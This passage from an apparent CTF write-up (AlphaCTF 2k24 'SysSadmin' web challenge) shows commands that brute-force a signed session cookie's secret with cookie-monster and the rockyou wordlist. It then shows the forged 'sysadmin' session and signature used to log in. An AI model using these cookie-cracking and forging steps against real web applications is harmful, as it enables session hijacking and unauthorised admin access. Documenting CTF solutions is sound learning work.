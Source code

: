 cracking the session:

```
cookie-monster.js -c eyJ1c2VyIjoiZ3Vlc3QifQ== -s lHUcFqnwsby5LLoCnk8R5pXuZ1A -w /usr/share/wordlists/rockyou.txt
```

gives us the password "tweetybird"

now sign a new session with the correct creds:

```json
# cookie.json
{
    "user":"sysadmin"
}
```

```bash
cookie-monster -e -f cookie.json -k tweetybird
```

this will give us the new session and session signature:

```
"session":"eyJ1c2VyIjoic3lzYWRtaW4ifQ=="
"session.sig":"dyeH7Et-g9i4HW4gzkpx2N8gUwg"
```

I send a request to the server with this cookies and I'm IN.

### Second part

you think we are done ? we didn't even start yet.
now when accessing the website with our new cookies we get the following page:

![dashboard page](https://github.com/Ilyeshaddad337/ctfwriteups/blob/795ea1b943dcbffda57cc71d151f2b5996be526b/AlphaCTF_2k_24/web/SysSadmin/assets/3.png?raw=true)
